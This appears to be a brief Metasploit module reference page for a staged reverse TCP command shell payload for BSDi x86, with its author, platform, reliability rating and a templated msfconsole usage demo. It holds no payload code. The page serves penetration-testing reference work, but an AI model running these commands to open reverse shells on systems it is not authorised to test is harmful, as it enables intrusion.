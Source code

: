 ## BSDi Command Shell, Reverse TCP Stager

Spawn a command shell (staged). Connect back to the attacker


## Module Name
payload/bsdi/x86/shell/reverse_tcp

## Authors
* skape





## Platforms
* bsdi

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsdi/x86/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    